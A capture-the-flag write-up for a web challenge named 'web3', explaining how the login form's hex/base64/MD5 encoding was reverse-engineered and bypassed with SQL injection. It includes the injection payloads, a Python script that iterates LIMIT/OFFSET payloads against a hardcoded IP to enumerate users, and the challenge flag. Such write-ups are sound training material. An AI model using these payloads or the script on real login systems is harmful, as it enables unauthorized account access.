







## web3

**Category:** Web

**Points:** 200

**Solves:** 0

### Write-up

Upon opening the link provided, we were presented with the following form



viewing the source code revealed that the form's data were modified before being sent to the backend checker (`web3.php`) through a GET parameter (`?data=`)



basically, `data` parameter is generated from the `login` & `pass` which are encoded as follows

```
toHex(base64(login),base64(pass))+md5(toHex(base64(login),base64(pass)))
```

below is an example of the request with `admin:admin` as the credential




the form was vulnerable to SQL injection which were proven with supplying single quote (`'`) as the `login`



after trying the common `junk' OR 1=1 #` injection to bypass the check, we were presented with the following error



this signifies that we had successfully login as a user, but the user does not have the access to the secret data. if you know your SQL, you can tell that the injection used above will return true for every row. but since the script will only check for one user, it probably only took the topmost row returned from the query. so how can we choose the user in the table? yep, by using `LIMIT` and `OFFSET` statement. since this is not an SQL tutorial, I will not explain it in length, bu you can read more about it [HERE](https://www.w3schools.com/php/php_mysql_select_limit.asp). So what we will do is go through every user in the table using the following payload `junk' OR 1=1 LIMIT 1 OFFSET row_num #` as the login. we will manipulate the `row_num` to limit the query to return only one user at `row_num` offset. below is an automated script in python which will bruteforce the user for the flag

```python
import requests
import hashlib
from base64 import b64encode

i = 0

while True:
    login = b64encode("junk' OR 1=1 LIMIT 1 OFFSET {} #".format(i))
    passw = b64encode('junk')
    m = hashlib.md5()
    data = (login + ',' + passw).encode("hex")
    m.update(data)
    data = data + '+' + m.hexdigest()
    r = requests.get('http://128.199.241.21/web3.php?data=' + data)
    print i, '=', r.text
    if ('not authorized' not in r.text):
        break
    i += 1
```



**Flag** : `PffftHHhhhW3bHack1ngiz34zyL0L@kictm2018`